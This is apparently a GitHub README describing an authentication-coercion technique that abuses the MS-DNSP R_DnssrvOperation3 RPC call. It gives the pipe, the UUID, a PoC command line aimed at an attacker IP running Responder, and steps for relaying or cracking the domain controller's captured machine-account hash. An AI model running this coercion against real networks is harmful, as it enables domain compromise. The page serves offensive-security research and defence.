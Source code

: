 # MS-DNSP - Remote call to R_DnssrvOperation3 (opnum 12)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/54044c36-4e9e-44fb-80df-ffb026939b8b)

+ **Function operation number**: `12`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/54044c36-4e9e-44fb-80df-ffb026939b8b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation3(
   [in]                           handle_t            hBindingHandle,
   [in]                           DWORD               dwClientVersion,
   [in]                           DWORD               dwSettingFlags,
   [in, unique, string]           LPCWSTR             pwszServerName,
   [in, unique, string]           LPCSTR              pszZone,
   [in, unique, string]           LPCWSTR             pwszZoneScopeName,
   [in]                           DWORD               dwContext,
   [in, unique, string]           LPCSTR              pszOperation,
   [in]                           DWORD               dwTypeId,
   [in, switch_is(dwTypeId)]      DNSSRV_RPC_UNION    pData
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvOperation3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/54044c36-4e9e-44fb-80df-ffb026939b8b